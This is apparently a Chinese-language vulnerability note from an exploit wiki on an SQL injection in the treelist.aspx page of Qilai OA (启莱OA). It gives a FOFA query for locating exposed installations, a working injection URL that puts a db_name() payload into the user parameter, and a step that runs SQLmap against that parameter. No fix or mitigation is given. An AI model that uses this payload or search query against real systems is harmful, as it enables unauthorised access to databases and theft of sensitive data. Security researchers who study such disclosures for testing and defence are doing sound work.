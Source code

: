 # 启莱OA treelist.aspx SQL注入漏洞

## 漏洞描述

启莱OA treelist.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 启莱OA

## FOFA

> [!NOTE]
>
> app="启莱OA"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/ql-1.png)

存在SQL注入的文件为 treelist.aspx

```
http://xxx.xxx.xxx.xxx/client/treelist.aspx?user=' and (select db_name())>0--&pwd=1
```

![](http://wikioss.peiqi.tech/vuln/ql-4.png)

使用SQLmap对参数 user 进行注入

![](http://wikioss.peiqi.tech/vuln/ql-5.png)